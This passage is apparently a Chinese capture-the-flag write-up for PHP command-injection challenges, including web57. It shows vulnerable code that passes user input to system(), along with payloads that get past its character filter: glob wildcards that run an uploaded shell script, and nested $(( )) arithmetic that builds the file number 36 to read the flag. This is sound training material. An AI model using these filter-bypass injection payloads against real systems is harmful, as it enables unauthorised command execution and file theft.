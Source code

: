 ```html
</html>
```

抓包传参

```
?c=.+/???/????????[@-[]
```

`[@-[]`是所有大写字母，看ascll码表

![image-20231026125300228](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231026125300228.png)

文件内容是sh命令

```sh
#!/bin/sh
tac flag.php
```

![image-20231026124849801](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231026124849801.png)

### web57

```php
<?php
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

构造数字36就行了，利用了`$(( ))与整数运算`

```
[root@localhost~]# echo $((1+1))
2
[root@localhost ~]# echo $(())
0
[root@localhost ~]# echo ~$(())
~0
[root@localhost ~]# echo $((~$(())))
-1
```

![image-20231105145852296](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231105145852296.png)

我们要构造36，可以先进行造-37

```
-37
$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))
36
$((~$(($(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))))
有点眼花
```
